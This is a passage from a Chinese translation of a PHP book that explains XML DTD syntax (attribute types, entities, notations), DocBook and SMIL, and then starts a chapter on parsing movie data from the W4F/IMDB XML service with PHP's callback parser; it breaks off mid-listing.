在混合内容模型中，元素列表必须用 `|` 符号分隔，并且列表必须跟在 **#PCDATA** 关键字之后。注意，如果省略内容模型后面的星号，则意味着只能包含其中一个选项，但该选项可以出现任意多次。

### 特殊情况 #3：ANY 内容

在极少数情况下，你可能会遇到如下所示的元素定义：

```
<!ELEMENT hodgepodge ANY >
```

在这个假设的例子中，`<hodgepodge>` 标签可以合法地包含任何内容（不过如果包含其他元素，它们也必须在 DTD 中定义）。

## 文档尾声

XML 文档的这个可选部分只能包含处理指令和注释。由于 XML 处理器可能需要以流式方式依次处理连续到达的文档等原因，你很少会遇到文档尾声部分。

## DTD（文档类型定义）基础

一个文档可以同时拥有外部 DTD 和内部子集，也可以只拥有其中之一，或者两者都没有。如果存在完整的 DTD，名称必须与 DTD 中某个元素的名称匹配。

以下是一个同时使用外部 DTD 和内部子集的文档类型声明示例：

```
<!DOCTYPE termpaper SYSTEM "academe.dtd" [
    various markup declarations
]>
```

这里，doctype 声明表明文档的根元素将是 `termpaper` 元素，文档结构的完整规则包含在相对 URL `academe.dtd` 处的文档类型声明中。内部子集以左方括号 `[` 开始，以右方括号 `]` 结束。（如果没有内部 DTD 子集，则省略方括号。）在方括号之间可以包含，例如，在此文档中可能使用但在 DTD 中未定义的实体声明。

如前所述，关于 DTD 的更详细信息将在后续章节中介绍；在该章节结束时，你将清楚内部子集方括号之间可以包含哪些内容。

（顺便提一下，注意两个不同的术语："文档类型*声明*"和"文档类型*定义*"。前者只是声明后者的存在；后者才真正详细定义了文档类型的特征。缩写"DTD"仅指文档类型*定义*。）


## ATTLIST 关键字

ATTLIST 是 DTD 设计者用来指定元素可能包含的属性特征的地方。ATTLIST 的一般形式如下：

```
<!ATTLIST elemname attribname attribvalueinfo [...] >
```

`elemname` 和 `attribname` 分别是该属性可应用于的元素名称和属性本身的名称，这一点不言而喻。`[...]` 仅表示一个 ATTLIST 可以包含设计者所需数量的属性定义，只需添加更多的 `attribname` `attribvalueinfo` 对即可。

`attribvalueinfo` 中的内容定义了属性可以取哪些类型的值。这些规范遵循以下通用模式：

```
attribtype attribdefault
```

我们将分别介绍这两部分。需要注意的是，在接下来的讨论中，篇幅所限无法描述所有可能的选项、注意事项和限制。

## 属性类型规范

属性值可以是以下三种类型之一：枚举类型、字符串类型或令牌类型。*枚举属性值*类型只需列出属性可能具有的所有可能值，其格式类似于元素的内容模型。例如（目前暂省略属性默认值规范）：

```
<!ATTLIST person gender (male | female | unknown) >
```

这表示 **person** 元素的 **gender** 属性可以是三个值之一：`male`、`female` 或 `unknown`。任何 `person` 元素如果为 `gender` 属性赋予了其他值，都将被视为无效而被拒绝。

字符串属性值类型简单地表示属性值可以由任意文本字符组成。在 `attribtype` 位置使用关键字 **CDATA**（如同在 XML 文档标记区域中使用该关键字一样），声明了该属性属于这种情况，例如：

```
<!ATTLIST website href CDATA >
```

（同样，此处省略了默认值规范。）`CDATA` 属性中任何看起来像标记的内容，以及其他所有文本（包括空格），都将由 XML 解析器原样传递给下游应用程序。

最后，令牌属性类型通过以下关键字之一来指定：**ID**、**IDREF**、**IDREFS**、**ENTITY**、**ENTITIES**、**NMTOKEN** 和 **NMTOKENS**。每个关键字都以特定方式约束属性的值，需要了解其所在的文档或 DTD 的其余部分才能理解。

## ID 类型属性

`ID` 属性的值在给定文档中该元素的所有 `ID` 属性值中必须是唯一的。它不能是纯数字，而必须以至少一个字母字符开头。（另外，按照惯例，`ID` 类型属性通常*命名为* "ID" 或 "id"，但这并非硬性要求。）一个示例声明如下：

```
<!ATTLIST person id ID >
```

可以在文档中这样使用：

```
<person id="dm2349">
```

重要的一点是，`ID` 类型属性（在此场景中）并非用来"标识"一个人，而是用来"标识" `person` 元素的某个特定出现实例。`ID` 类型属性主要设计用于与 `IDREF`/`IDREFS` 属性配合使用，如下所述。

## IDREF 和 IDREFS 类型属性

这些属性旨在与 ID 类型属性配合使用，作为一种内置的文档内交叉引用或链接机制。在 HTML 中，`<a>` 标签的 href 属性可以使用 `#location` 格式指向该 `<a>` 标签所在文档中的某个位置。（目标位置本身必须用 `<a name="location">` 标签标记。）这与使用 IDREF/IDREFS 属性指向 ID 属性直接类似。

IDREF 属性的值必须是文档中某处某个 ID 属性的值；IDREFS 属性的值则是由空格分隔的一个或多个 ID 属性值（复数）。

考虑一个用于向潜在求职者和客户介绍公司的 XML 应用。我们可能会在该应用的 DTD 中发现如下 ATTLIST 声明：

```
<!ATTLIST contact contacttype ID >
<!ATTLIST appinfo hrcontact IDREF >
<!ATTLIST custinfo officecontacts IDREFS >
```

基于此 DTD 的文档可能包含以下片段：

```
<contact contacttype="hr">
<contact contacttype="main">
<contact contacttype="northamerica">
<contact contacttype="europe">
```

每个 contacttype 元素大概包含用于联系相应办事处的地址、电话、电子邮件和传真信息。在文档的其他地方，我们可能会看到类似这样的内容：

```
<appinfo hrcontact="hr">Looking for a job?</appinfo>
<custinfo officecontacts="main northamerica europe">
    Contact our sales offices
</custinfo>
```

请注意，实际遍历或对 ID 及对应的 IDREF/IDREFS 属性进行任何其他处理，取决于应用程序本身；XML 内置的处理机制并不执行此操作。还需注意，无法指定 IDREF/IDREFS 属性的值必须来自某个特定的 ID 值——只能指定它必须来自文档中某处的某个 `ID`。

## ENTITY 和 ENTITIES 类型属性

我们尚未介绍如何在 DTD 中定义实体。不过一般来说，`ENTITY` 类型属性的值必须是 DTD 中定义的某个实体的名称；属性中使用的名称不包括引用实体时通常使用的 `&` 和分号。（`ENTITIES` 类型属性的值必须是一个或多个实体名称的列表，以空格分隔。）

需要注意的是，这些属性中使用的实体名称必须是一种特殊实体——*外部二进制实体*——的名称。这是位于 DTD 和文档本身之外的某个位置的非解析（即非 XML）资源，例如图像或其他多媒体文件。例如，假设 DTD 定义了一个名为 `logo` 的实体，用于标识公司图形标志的位置。DTD 中的一个 `ENTITY` 类型属性可能定义为：

```
<!ATTLIST corpsymbol img ENTITY >
```

文档中可能包含：

```
<corpsymbol img="logo"/>
```

请注意，截至本文撰写时，很少有 XML 应用程序实际支持使用外部二进制实体。更多信息请参阅下文关于 **NOTATION** 关键字的章节。

## NMTOKEN 和 NMTOKENS 类型属性

这些属性类似于字符串类型（CDATA）属性，不同之处在于它们缩小了属性值中可包含字符的范围：`NMTOKEN(S)` 类型属性的字符串值只能由字母和数字字符、句点和连字符组成。

给定以下声明

```
<!ATTLIST spreadsheet type NMTOKENS >
```

有效的 XML 文档可能包含以下片段：

```
<spreadsheet type="Excel VisiCalc 1-2-3">
```

但不能包含

```
<spreadsheet type="Excel VisiCalc Rows&Columns">
```

因为 `Rows&Columns` 不是一个合法的"名称令牌"字符串，问题在于其中的 `&` 字符。

## 属性默认值规范

ATTLIST 声明中类型之后的部分用于声明 DTD 是否提供了默认值、文档作者是否必须提供值等。这些统称为属性的*默认值规范*。

最简单的默认值规范是 DTD 作者指定一个具体的默认值，如以下示例所示：

```
<!ATTLIST person gender
  (male | female | unknown) "unknown" >
```

这表示如果文档中某个 `person` 元素没有 `gender` 属性，应用程序应假定其值为 "unknown"。

DTD 也可以通过使用特殊的 **#REQUIRED** 关键字来断言该属性必须在文档中被赋予某个值，而不提供默认值。例如：

```
<!ATTLIST website url CDATA #REQUIRED >
```

在这种情况下，任何包含 `website` 元素的文档必须为其提供 `url` 属性，才能通过有效性验证。

如果 DTD 作者不打算以任何特定方式约束属性的值（除了类型规范可能施加的限制之外），可以使用 **#IMPLIED** 关键字，如下所示：

```
<!ATTLIST person name CDATA #IMPLIED >
```

在此情况下，如果某个特定的 `person` 元素没有关联的 `name` 属性，XML 处理器不会假定任何默认值。

最后，还有一种略显特殊的默认值规范，由 **#FIXED** 关键字和一个带引号的值来表示。例如：

```
<!ATTLIST doc version NMTOKEN #FIXED "1.0">
```


这要求 `doc` 元素的 `version` 属性值始终为 "1.0"，无论该属性是否在文档中提供。

## ENTITY 关键字

要在有效的 XML 文档中使用实体，DTD 必须已经定义了该实体。每个实体的定义形式如下：

```
<!ENTITY name entityinfo >
```

最简单的实体用于替换常用或样板文本，例如：

```
<!ENTITY firstpart "The Party of the First Part" >
```

在 XML 文档中引用此实体 `&firstpart;` 将使解析器就地将其展开为文本字符串 "The Party of the First Part"。

除了这种通用替换文本之外，细心的 DTD 作者——尤其是在国际化环境中工作的作者——还可以为超出符合要求的文档预期所用字符集的单个字符提供实体声明。例如，如果该字符集主要由 US-ASCII 字符组成，但偶尔包含法语字符，DTD 可能包含如下实体声明，表示"带软音符号的小写 c"字符 ç：

```
<!ENTITY ccedilla "&#231;" >
```

文档作者随后可以在文档中包含如下片段：

```
... Fran&ccedilla;ois ...
```

虽然笨拙，但这比对应的 ISO 十进制或十六进制值更容易记忆，尤其是对于偶尔使用的情况。

实体还可以指向 DTD 和引用它的给定文档之外的资源——即"替换文本"。在这种情况下，DTD 必须使用如下格式定义该实体：

```
<!ENTITY boilerplate SYSTEM "url" >
```

将 URL 替换为所需资源的地址。

最后，有一种特殊类型的实体——参数实体——仅保留在 DTD 内部使用。假设 DTD 中的大多数属性都是 `CDATA` 类型，默认规范为 `#IMPLIED`（非常常见的情况）。与其在所有这些 `ATTLIST` 声明中逐一拼写出来，DTD 作者可以使用以下格式为它们定义参数实体（注意 "%" 符号）：

```
<!ENTITY % genattrib "CDATA #IMPLIED" >
```

`ATTLIST` 声明随后可以使用此实体，如下所示：

```
<!ATTLIST colorspec rgb %genattrib; >
<!ATTLIST colorspec cmyk %genattrib; >
```

等等。

## NOTATION 关键字

符号（Notation）是从 SGML 继承而来的。基本上，它们的目的是定义可能需要"包含"在文档中的非 XML——特别是二进制——内容的类别。（当然，"包含"在某种程度上是理论上的，因为 XML 文档中只能出现文本。）对于熟悉 HTML 的开发人员来说，这是一个有些奇怪的概念，因为他们已经习惯了使用简单的超链接和 `` 标签等方式来实现相同的目的。尽管如此，你应该意识到在某些时候可能会遇到它们。

符号声明的一般格式为：

```
<!NOTATION notationname externalID >
```

重申：符号不定义特定的非 XML 内容，如 "logo.gif" 或 "soundtrack.mp3"，而是定义非 XML 内容的类别，如 "gif" 或 "mp3"。声明中的 `externalID` 部分指向某个"了解"这种特定内容类别的外部资源。至少从表面上看，`externalID` 最常见的形式使用 **SYSTEM** 关键字和 URL，例如：

```
<!NOTATION realaudio SYSTEM "http://www.real.com" >
```

问题在于，该 URL 并没有真正特定用于处理 RealAudio 文件的内容；那里确实有软件，以压缩形式存在——但需要下载和安装。

因此你可以假设程序已经安装，并使用类似这样的内容：

```
<!NOTATION realaudio SYSTEM
"file:///C:\Program Files\Real\rplayer.exe" >
```

当然，一旦有人将程序安装到不同的文件夹，更不用说使用非 Microsoft 文件系统时，这就行不通了。

（或者，DTD 可以用 **PUBLIC** 替换 **SYSTEM** 关键字，并用媒体类型的标准"目录名称"替换 URL。虽然这有一个优点——它回避了 URL 究竟应该指向什么的问题——但它也有一个主要缺点：很少有非 SGML 顽固分子使用，甚至知道如何使用这些 **PUBLIC** 标识符。）

同样，由于上述所有原因，在可预见的未来，你不太可能真正在 XML 文档中遇到符号。如果你确实遇到了，你会发现它们与一种特殊形式的实体——外部二进制实体——配合使用。这些实体使用以下语法声明：

```
<!ENTITY *entname* SYSTEM "*url*" NDATA *notationname* >
```

*notationname* 必须与 DTD 中先前声明的符号名称匹配，例如，在此实体声明中：

```
<!ENTITY corplogo SYSTEM "images/logo.jpg" NDATA jpg >
```

其中名为 "jpg" 的符号必须已在前面定义。通过这种方式协同工作，实体和符号声明分别告诉下游应用程序要检索什么特定外部资源以及如何处理它。

## XML 应用程序

随着围绕 XML 作为解决电子商务问题、搜索引擎问题等的*终极*工具的所有炒作，你会期望找到大量现有的应用程序。确实如此。这里我们将简要介绍两个：DocBook 和 SMIL。

### DocBook

DocBook 自 1990 年代初就已存在，由代表 O'Reilly and Associates 出版社、Sun、Novell、Hewlett-Packard 等厂商的联盟开发。目前由非营利组织 OASIS（结构化信息系统促进组织）维护。它在发布任何类型技术文档的组织中广泛使用，包括原始 pre-OASIS 版本的创始人。不过，它并没有特别限制只能用于技术书籍和论文。

**注意**：PHP 文档使用 DocBook DTD。

（从前一段的日期你可能猜到，"官方" DocBook 早于 XML 标准，是纯 SGML。然而，非官方的 XML 版本截至本文撰写时已更新到 3.1 版本。）

DocBook DTD（实际上是一簇 DTD，通过参数实体组合成"虚拟 DTD"）非常庞大且相当复杂。一般来说，DocBook 文档包含预期的标签，如 `<book>` 和 `<chapter>`，但也可能包含诸如 `<colophon>`、`<SeeIE>`（索引中的"参见，例如"条目）等深奥的项目。

### 同步多媒体集成语言（SMIL）

SMIL 是由 RealNetworks 和其他厂商提出的标准，于 1998 年 6 月被正式接受为 W3C 推荐标准。SMIL 文档用于指定流媒体演示的布局、顺序和时间。例如，你可以构建一个重复的幻灯片演示，将文本（可能是隐藏式字幕）与影片和/或音频片段同步。（目前，只有少数应用程序能够运行 SMIL 演示，但其中之一——RealNetworks 自己的 G2 RealPlayer——足够流行，值得关注。）每个 SMIL 文档由标记标题、布局和实际内容的标签组成。以下是一个示例，取自 RealNetworks "DevZone" 网站：

```
<smil>
  <head>
    <layout>
      <root-layout width="320" height="272"/>
        <region id="pix_region" width="320" height="240"
          left="0" top="0"/>
        <region id="text_region" width="320" height="32"
          left="0" top="240"/>
    </layout>
  </head>
  <body>
    <par>
      <audio src="audio/music.rm"/>
      
      <textstream src="text/text.rt" region="text_region"/>
    </par>
  </body>
</smil>
```

注意 `<layout>` 部分中 `<region>` 标签的 `id` 属性与 `<par>` 部分中各种标签的 `region` 属性之间的对应关系。这些指定了哪些内容以及什么类型的内容将占据 SMIL 查看器窗口的各个区域。结果如图 16.1 所示。此屏幕截图是在演示开始后不久拍摄的。当然，稍后各个区域将被不同的图像和文本占据。


**图 16.1** 使用 RealPlayer 查看 SMIL 文件。


## XML 长什么样？

面对关于 XML 基础知识的大量信息，你可能在想能否用普通的网页浏览器查看它。有几件事使这个问题的回答比预期的更为复杂。

首先，尽管截至撰写本文时核心 XML 规范已经发布 18 个月，但许多重要的相关标准（如 XLink 和 XPointer，它们将提供一种超强的超链接功能）*尚未最终定稿*。其次，想想内容与显示特性分离的问题——这表面上是 XML 的优势之一：如果浏览器事先不知道需要显示哪些标签，它又怎么知道*如何*显示这些标签呢？

正如前面暗示的那样，答案是 XML 文档中所有需要显示的内容都必须在外部样式表中定义其显示特性。还有一个额外的条件：浏览器必须是 5.0 或更高版本。微软的 Internet Explorer 5 默认内置了一个样式表。使用 IE5 时，XML 文件默认显示为一个可展开/折叠的元素树，元素层层嵌套，如图 16.2 所示。



**图 16.2** 微软的 Internet Explorer 5 默认将 XML 文件显示为*元素树*。

这种方式虽然可用但相当单调，而且由于它同时显示标记和包含的内容，可能会让用户感到困惑。更好的选择是使用 CSS 样式表来增强 XML 的显示效果。这可以隐藏标签，而且与 IE5 和网景的 Mozilla 浏览器都兼容。（虽然这可能是不言而喻的，但请注意 CSS 选择器使用的是 XML 标签，而不是你从 HTML 中熟悉的那些标签。）图 16.3 展示了 Mozilla 浏览器中查看经过 CSS 增强的 XML 文档的效果。


图 16.3 网景的 Mozilla 浏览器需要样式表才能显示 XML 文件。

比单独使用 CSS 样式表更好的方案是将可扩展样式语言（XSL）与 CSS 结合使用。XSL 在撰写本文时尚未成为最终规范，它与 CSS 在几个方面有所不同，最明显的区别是其语法是纯 XML 的。它由两部分组成：一种转换语言和一种用于控制文档渲染方式的"格式化对象"语言。后者尚未被任何主流浏览器或其他软件实现，因此现在需要将前者与 CSS 结合使用。

至于转换语言——简称 XSLT——它的用途（如你可能猜测的那样）是将源文档的元素结构所提供的树转换成一棵*不同的*树。截至撰写本文时，XSLT 最常见的用途是将原始 XML 转换为格式良好的 HTML，然后（可选地）将结果链接到 CSS 样式表。Mozilla 项目迄今为止一直避免实现任何 XSLT 功能——这种谨慎是可以理解的，因为 XSLT 规范仍未获得 W3C 的最终正式批准——但微软已经在 IE5 中内置了一个 XSLT 处理器（一如既往地带有微软特定的扩展功能）。

各种免费软件、共享软件、开源和其他 XSLT 处理器已经陆续进入市场。不过，其中很少能实际显示结果树；大多数是纯命令行或基于 GUI 的转换工具。

### 进一步学习...

本章仅仅触及了 XML 功能以及可用选项、应用和软件的冰山一角。除了进一步的通读之外，建议查阅网络（特别是 W3C 网站，http://www.w3.org/）获取以下与 XML 直接相关的重点领域的信息：

- **文档对象模型（DOM）**——正如本章简要讨论的那样，DOM 是一种 API，允许对文档树及其部分内容进行操作。

- **XML 中的命名空间**——命名空间在功能上等同于特定的 XML 应用或方言——即特定标签或属性具有特定含义的"宇宙"。如果由于某种操作或某种原因，来自两个不同命名空间的 XML 片段最终出现在同一文档中，而它们共享具有不同含义的相同元素名称，该怎么办？XML 命名空间规范描述了一种解决这些冲突的机制。

- **资源描述框架（RDF）**——RDF 规范描述了一类元数据，其描述文档内容和上下文的能力远超 HTML 简单的 `<meta>` 标签。

- **XML Schema**——XML DTD 提供了从 SGML 版本的 DTD 迁移的满意途径。不过 DTD 有几个缺点。首先，其语法对于长期使用 HTML 和 XML 的人来说相当晦涩难懂。其次，它们功能不够完善；例如，它们不提供数据类型定义。XML Schema 将解决这两个局限性。

## 总结

XML 基于对数据施加结构的标签。标签本身可以传达信息（`<customer id="1233">`），也可以标记信息的开始和结束（`<customer><id>1233</id></customer>`）。

SGML 在某种程度上是 XML 的母体。然而，SGML 体积庞大——大到无法用于日常使用。相比之下，XML 的规范仅用约 20 页就能描述清楚。它的设计使得解析器可以快速编写，应用程序的编写更是如此。

重要的是要记住，XML 是一个描述如何构建方言的标准。XML 本身没有标签。如有必要，可以将其视为一种元语言。XML 方言的例子有 SMIL 和 DocBook。

HTML 不适合文档管理或数据管理，因为它混合了结构元素和显示元素；由浏览器而不是开发者决定标签的显示方式，而且它不考虑页面长度等非显示因素。

XML 与 HTML 不同，因为它需要配对的标签，保留空白字符（如果需要的话），保持标签名称的大小写，并且支持 Unicode。

为了处理 XML，需要一个解析器程序。解析器检查标签，并根据每个标签启动特定功能，根据事件（如标签开始或标签结束）调用功能，或者返回 XML 文档中的元素树。

与 HTML 一样，XML 由标签和属性组成。可以与任何标签一起使用的两个属性是 `xml:lang` 和 `xml:space`。这些属性指定使用的人类语言以及空白字符是否重要。

同样，与 HTML 一样，XML 理解实体——代表其他内容的字符字符串。例如，`&#252;` 代表德语的变音 u，`&gt;` 代表大于号。

`cdata` 标签用于避免处理信息，可以用来在 XML 内部存放 HTML。例如，HTML 中的粗体标签 `<para>` 可以这样写：`<![CDATA[<b>]]>`。

处理指令（PI）可以在任何 XML 文档中使用。如果 XML 处理器不了解某个特定指令，则会忽略它。PHP 使用 `<?php ... ?>` 处理指令。

XML 可以选择包含一个前言部分，其中可以包含注释、处理指令、XML 声明和文档类型声明（DTD）。XML 声明指定所使用的 XML 版本（目前为"1.0"）、字符编码方案以及文档是否为独立文档。DTD 标签指定处理 XML 文档所需的 DTD。

DTD 的构建过于复杂，无法在短短一两段中总结。不过 DTD 背后的理念并不复杂。DTD 告诉解析器（或处理器）程序 XML 应该是什么样子——允许哪些标签和属性，以及它们的顺序。

下一章"使用 PHP 处理 XML"将介绍 PHP 提供的处理 XML 的工具。

*John E. Simpson* 于 1979 年开始了他的计算机职业生涯，在新泽西州皮斯卡塔韦的 AT&T 公司从事大型机、UNIX 和 PC 应用开发长达 12 年。自 1993 年以来，他一直担任佛罗里达州塔拉哈西市的分布式系统专家，主要开发 Microsoft Access 和 Visual Basic 数据库应用程序。他是 *Just XML* 的作者，也是 *HTML for Fun and Profit* 的合著者，两本书均由 Prentice Hall PTR 出版。他还是塔拉哈西公共工程部和 Anhinga Press（一家诗歌出版社）的网站管理员。


# 使用 PHP 处理 XML

使用 XML 在网站之间传递数据正变得越来越流行。事实上，万维网包装器工厂（*http://db.cis.upenn.edu/W4F/*）正是致力于这一理念。

本章将读取来自万维网包装器工厂的 XML 输出，并将其解析为 PHP 程序能够理解的信息。首先解析关于电影的信息，随后解析关于公司的信息。你可以使用本章（以及万维网包装器工厂）中开发的技术从任何网站检索信息。

## 获取电影信息

互联网电影数据库（http://www.imdb.com）拥有几乎所有已上映电影的信息。如果你正在为一家音像店设计内网网站，那么在 imdb.com 已经完成统计工作的情况下，花钱去汇编电影统计数据可能是没有意义的。

使用以下 URL 作为模板（三行组成一个 URL），你可以检索任何电影的信息：

http://db.cis.upenn.edu/cgi-bin/serveXML?
SERVICE=IMDB
&URL=http://us.imdb.com/Title?(title_reference)

> 诚然，确定 title_reference（IMDB 的记录键或电影名称及上映年份）可能不是最简单的任务。但是，收集这些信息比开发电影数据库要容易得多。

**清单 17.1** *harvey.xml*

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!--
-->
<!--  W4F: Copyright Arnaud Sahuguet and Fabien Azavant,
  1998-99  -->
<!-- URL: http://db.cis.upenn.edu/W4F
-->
<!--
-->
<!DOCTYPE W4F_DOC [
  <!ELEMENT W4F_DOC (MOVIE)>
  <!ELEMENT MOVIE (CATEGORIES,ACTORS)>
  <!ATTLIST MOVIE
    TITLE CDATA #IMPLIED
    YEAR CDATA #IMPLIED>
  <!ELEMENT CATEGORIES (GENRE)*>
  <!ELEMENT GENRE (#PCDATA)>
  <!ELEMENT ACTORS (ACTOR)*>
  <!ELEMENT ACTOR (FN,LN)>
  <!ELEMENT FN (#PCDATA)>
  <!ELEMENT LN (#PCDATA)>
]>
<W4F_DOC>
  <MOVIE TITLE="Harvey" YEAR="1950">
    <CATEGORIES>
      <GENRE>Comedy</GENRE>
    </CATEGORIES>
    <ACTORS>
      <ACTOR>
        <FN>James</FN>
        <LN>Stewart</LN>
      </ACTOR>
      <ACTOR>
        <FN>Josephine</FN>
        <LN>Hull</LN>
      </ACTOR>
      <ACTOR>
        <FN>Peggy</FN>
        <LN>Dow</LN>
      </ACTOR>
      ...
      ANOTHER 28 ACTOR TAGS
      ...
      <ACTOR>
        <FN>Sam</FN>
        <LN>Wolfe</LN>
      </ACTOR>
    </ACTORS>
  </MOVIE>
</W4F_DOC>
```

## 使用 XML 解析器

你编译到 PHP 中的 XML 解析器（参见第 2 章）使用回调函数来处理 XML 元素。当解析器发现信息块（如标签、属性、字符数据等）时，会调用你指定的特定函数。例如，以下代码行告诉 XML 解析器在发现开始标签（`<author>`）或结束标签（`</author>`）时调用哪些函数。

```php
xml_set_element_handler(
  $xml_parser
  ,"startElement"
  ,"endElement");
```

startElement 函数可能如下所示：

```php
function startElement($parser, $name, $attrs) {
  echo "found $name<br>";
  while (list($key, $value) = each($attrs)) {
    echo "--$key: <b>$value</b><br>";
  }
}
```

$name 参数保存标签的名称。$attrs 参数是一个数组，保存标签的任何属性。

endElement 函数可以简单到：

```php
function endElement($parser, $name) {
}
```

当然，这些函数做不了太多事情。**清单 17.2** 展示了一个完整的程序，既显示 XML 开始标签也显示数据。$depth 值用于跟踪嵌套层级，以便在每个标签名前显示正确数量的破折号字符。显示破折号有助于展示数据的缩进（从而展示数据结构）。实际的数据值（如电影名称）以粗体显示。

### 清单 17.2 解析 XML 标签、属性和字符数据

```php
<?php // xml01.php3
// Returns a string containing an entire file.
function read_file_into_buffer($filename) {
  $ary_lines = file($filename);
  $contents  = "";

  while (list($key, $value) = each($ary_lines)) {
    $contents .= $value;
  }

  return($contents);
}

// This function is called once for each starting
// XML tag.
function startElement($parser, $name, $attrs) {
  global $depth;

  $spacer = '';
  for ($i = 0; $i < $depth[$parser]; $i++) {
      $spacer .= '--';
  }
  print "$spacer$name<br>";

  while (list($key, $value) = each($attrs)) {
      echo "$spacer....$key: <b>$value</b><br>";
  }

  $depth[$parser]++;
}

// This function is called once for each ending
// XML tag.
function endElement($parser, $name) {
  global $depth;

  $depth[$parser]--;
}

// This function is called for data contained
// within a tag. It is also called when whitespace
// is seen, which is why the data is trimmed and ignored
// if no characters are left.
function characterData($parser, $data) {
    $data = trim($data);
    if (strlen($data)) {
        print "<b>$data</b><br>";
    }
}

// Build up the URL to be fetched. You could also use
// a file from your local system. For example, you
// could use $url = '/usr/local/xml/harvey.xml';
$host = 'http://db.cis.upenn.edu/cgi-bin/serveXML?';
$service = 'SERVICE=IMDB';
$target = 'URL=http://us.imdb.com/Title?0042546';
$url = $host . $service . '&' . $target;

$data = read_file_into_buffer($url);

echo '<html><head><title>XMLO1</title></head><body>';

// Create the parser. The $xml_parser variable
// can be passed to other xml functions as needed.
$xml_parser = xml_parser_create();

// Tell the parser which functions handle the start
// and end tags.
xml_set_element_handler($xml_parser, "startElement",
"endElement");
xml_set_character_data_handler($xml_parser,
"characterData");

// Start the parse.
if (!xml_parse($xml_parser, $data, 1)) {
    die(sprintf("XML error: %s at line %d",
    xml_error_string(xml_get_error_code($xml_parser)),
    xml_get_current_line_number($xml_parser)));
}

// Destroy the parser.
xml_parser_free($xml_parser);

echo '</body></html>';
?>
```

该程序的输出为：

```
W4F_DOC
--MOVIE
--....TITLE: Harvey
---...YEAR: 1950
-----CATEGORIES
------GENRE
Comedy
----ACTORS
------ACTOR
--------FN
James
--------LN
Stewart
------ACTOR
--------FN
Josephine
--------LN
Hull
...
  ADDITIONAL DATA REMOVED FOR BREVITY
...
------ACTOR
--------FN
Sam
--------LN
Wolfe
```

如你所见，解析 XML 相对容易。James Clark 编写了 PHP 使用的 XML 解析器，他已经完成了所有困难的工作。你所要做的就是编写回调函数。下一节将展示如何从上面使用的简单回调函数过渡到将 XML 数据移入 PHP 变量。

## 从 XML 到 PHP

到目前为止，XML 数据只是简单地流经 PHP 脚本。XML 来自 Web 服务器，经过解析后，标签和数据被发送到 Web 浏览器。PHP 脚本并不知道正在解析的是什么类型的数据。事实上，之前使用的脚本适用于任何 XML 文件。

完成基本解析之后，如何处理 XML 信息取决于你需要做什么。清单 17.3（第 422 页）中的脚本初始化了以下变量：

- `$movie_title`—此标量变量保存电影的标题。
- `$movie_year`—此标量变量保存影片的制作年份。
- `$movie_actors`—此数组保存演员的姓名。名字和姓氏组合在一起构成数组的每个元素。

现在需要更加具体化了；PHP 脚本需要"知道"它正在解析电影信息。重要的是要认识到，信息是一次一部电影地检索的。信息的结构也很重要：

```xml
<W4F_DOC>
  <MOVIE TITLE="Harvey" YEAR="1950">
    <CATEGORIES>
      <GENRE>Comedy</GENRE>
    </CATEGORIES>
    <ACTORS>
      <ACTOR>
        <FN>James</FN>
        <LN>Stewart</LN>
      </ACTOR>
    </ACTORS>
  </MOVIE>
</W4F_DOC>
```


## 第 17 章：XML 与 PHP

每部电影只有一个片名和一个年份。你能看出电影片名可能是如何被引用的吗：

```
W4F_DOC^MOVIE^TITLE
```

**注意**

脱字符（caret）被用作分隔符，因为它在标签名或属性名中极少（甚至从不）出现。

类似地，演员的姓氏可能是：

```
W4F_DOC^MOVIE^ACTORS^ACTOR^LN
```

这种字符串（以脱字符分隔的标签名列表）可以被称为*结构键*，因为结构键中的每个名称对应 XML 层次结构（或结构）中的不同层级。

将结构键的概念与 DTD 中包含的信息（如前面清单 17.1 所示）结合起来，就可以揭示一种将演员的名和姓拼接在一起的技术：

1.  `processData` 函数在发现结构键等于以下值时，设置一个名为 `$first_name` 的全局变量：
    `W4F_DOC^MOVIE^ACTORS^ACTOR^FN`
2.  当 `processData` 函数看到以下结构键时，它会将姓追加到名后面，并将结果添加到 `$movie_actors` 数组中。
    `W4F_DOC^MOVIE^ACTORS^ACTOR^LN`

这两个步骤使脚本能够从 XML 信息中提取演员的姓名。清单 17.3 展示了这一技术的实际应用。为了减少脚本的篇幅，脚本只显示 PHP 变量。

### 清单 17.3 从 XML 信息中设置 PHP 变量

```php
<?php // xml02.php3

// Returns a string containing an entire file.
function read_file_into_buffer($filename) {
  $ary_lines = file($filename);
  $contents  = "";
  while (list($key, $value) = each($ary_lines)) {
    $contents .= $value;
  }
  return($contents);
}

function startElement($parser, $name, $attrs) {
  global $lst_current_tag;
  global $movie_title;
  global $movie_year;

  // Add the current tag's name to the list being built
  // in $lst_current_tag.
  $lst_current_tag .= "^$name";

  while (list($key, $value) = each($attrs)) {
    // If the current tag is movie, then examine the
    // attributes closely.
    if ($lst_current_tag == "^W4F_DOC^MOVIE") {
      if ($key == "TITLE") {
        $movie_title = $value;
      }
      elseif ($key == "YEAR") {
        $movie_year = $value;
      }
    }
  }
}

function endElement($parser, $name) {
  global $lst_current_tag;

  // Find the position of the last caret in the list
  // variable.
  $caret_pos = strrpos($lst_current_tag, '^');

  // Remove the last element's name from the list.
  $lst_current_tag =
    substr($lst_current_tag, 0, $caret_pos);
}

function characterData($parser, $data) {
  global $lst_current_tag;
  global $first_name;
  global $movie_actors;

  $data = trim($data);

  // Here are the structure keys that we're
  // interested in. skey is short for structure
  // key.
  $skey_fn = "^W4F_DOC^MOVIE^ACTORS^ACTOR^FN";
  $skey_ln = "^W4F_DOC^MOVIE^ACTORS^ACTOR^LN";

  // Store first names into a global variable for
  // future use.
  if ($lst_current_tag == $skey_fn) {
    $first_name = $data;
  }
  // If a last name is being processed, then
  // append the name to the actors array.
  elseif ($lst_current_tag == $skey_ln) {
    $movie_actors[] = "$first_name $data";
    $first_name   = '';
  }
}

$host = 'http://db.cis.upenn.edu/cgi-bin/serveXML?';
$service = 'SERVICE=IMDB';
$target  = 'URL=http://us.imdb.com/Title?0042546';

$url = $host . $service . '&' . $target;

$data = read_file_into_buffer($url);

echo '<html><head><title>XML02</title></head><body>';

$lst_current_tag = '';
$xml_parser  = xml_parser_create();

xml_set_character_data_handler($xml_parser,
  "characterData");
xml_set_element_handler($xml_parser,
  "startElement", "endElement");

if (!xml_parse($xml_parser, $data, 1)) {
  die(sprintf("XML error: %s at line %d",
  xml_error_string(xml_get_error_code($xml_parser)),
  xml_get_current_line_number($xml_parser)));
}

xml_parser_free($xml_parser);

// Concatenate all of the array elements into
// one string with comma as the delimiter.
